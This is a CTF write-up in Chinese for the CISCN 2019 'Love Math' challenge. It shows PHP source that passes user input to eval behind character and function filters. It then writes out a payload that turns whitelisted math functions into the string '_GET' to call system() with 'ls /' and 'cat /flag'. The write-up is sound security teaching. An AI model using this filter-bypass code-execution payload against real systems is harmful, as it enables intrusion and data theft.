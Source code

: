 # CISCN 2019

## 0x01 Love Math

关键词：敏感函数，代码执行

* 进入界面后发现源代码：

* ```
  <?php
  error_reporting(0);
  //听说你很喜欢数学，不知道你是否爱它胜过爱flag
  if(!isset($_GET['c'])){
      show_source(__FILE__);
  }else{
      //例子 c=20-1
      $content = $_GET['c'];
      if (strlen($content) >= 80) {
          die("太长了不会算");
      }
      $blacklist = [' ', '\t', '\r', '\n','\'', '"', '`', '\[', '\]'];
      foreach ($blacklist as $blackitem) {
          if (preg_match('/' . $blackitem . '/m', $content)) {
              die("请不要输入奇奇怪怪的字符");
          }
      }
      //常用数学函数http://www.w3school.com.cn/php/php_ref_math.asp
      $whitelist = ['abs', 'acos', 'acosh', 'asin', 'asinh', 'atan2', 'atan', 'atanh', 'base_convert', 'bindec', 'ceil', 'cos', 'cosh', 'decbin', 'dechex', 'decoct', 'deg2rad', 'exp', 'expm1', 'floor', 'fmod', 'getrandmax', 'hexdec', 'hypot', 'is_finite', 'is_infinite', 'is_nan', 'lcg_value', 'log10', 'log1p', 'log', 'max', 'min', 'mt_getrandmax', 'mt_rand', 'mt_srand', 'octdec', 'pi', 'pow', 'rad2deg', 'rand', 'round', 'sin', 'sinh', 'sqrt', 'srand', 'tan', 'tanh'];
      preg_match_all('/[a-zA-Z_\x7f-\xff][a-zA-Z_0-9\x7f-\xff]*/', $content, $used_funcs);  
      foreach ($used_funcs[0] as $func) {
          if (!in_array($func, $whitelist)) {
              die("请不要输入奇奇怪怪的函数");
          }
      }
      //帮你算出答案
      eval('echo '.$content.';');
  }
  ```

  可见这是只允许c中传入数学函数的一个题目

* ### 延伸知识：php敏感函数

* ```
  base_convert(37907361743,10,36) ==>"hex2bin"
  dechex(1598506324) ==>"5f474554"
  $pi = hex2bin("5f474554") ==>$pi="_GET"
  ```

  由于这三项基本信息，我们可以构造一个payload：

  ```
  c=$pi=base_convert(37907361743,10,36)(dechex(1598506324));($$pi){pi}(($$pi){abs})&pi=system&abs=ls /
  ==> c=$pi=_GET;($_GET){pi}($_GET){abs}&pi=system&abs=ls /
  ```

  即效果为执行`system(ls /)`语句

  进一步构造payload：

  ```
  c=$pi=base_convert(37907361743,10,36)(dechex(1598506324));($$pi){pi}(($$pi){abs})&pi=system&abs=cat /flag
  ```

  ![image-20210324173412896](C:\Gitbook\Import\heart1ess_s_ctf\assets\CIS1.png)